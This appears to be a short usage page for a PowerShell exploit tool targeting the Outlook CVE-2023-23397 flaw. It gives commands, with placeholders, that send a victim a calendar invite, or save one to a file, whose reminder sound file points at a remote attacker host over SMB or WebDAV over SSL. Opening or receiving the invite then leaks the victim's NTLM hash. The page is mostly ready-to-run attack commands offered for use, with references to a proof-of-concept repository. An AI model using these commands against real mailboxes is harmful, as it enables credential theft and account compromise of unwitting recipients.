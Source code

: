 ### Description
```
Send or save calendar invite that leaks NTLM hash using the ReminderSoundFile option.
The email is send from the email account associated with Outlook.
```

### Execute - (send mail to the target)
```
Send-CalendarNTLMLeak -recipient "<recipient>@<domain>" -remotefilepath "\\<rhost\<file>.wav" -meetingsubject "<subject>" -meetingbody "<body>"
```

### Execute - (save to file)
```
Save-CalendarNTLMLeak -remotefilepath "\\<rhost>@SSL@443\<file>.wav" -meetingsubject "<subject>" -meetingbody "<body>"
```

### References
* https://www.mdsec.co.uk/2023/03/exploiting-cve-2023-23397-microsoft-outlook-elevation-of-privilege-vulnerability
* https://github.com/api0cradle/CVE-2023-23397-POC-Powershell

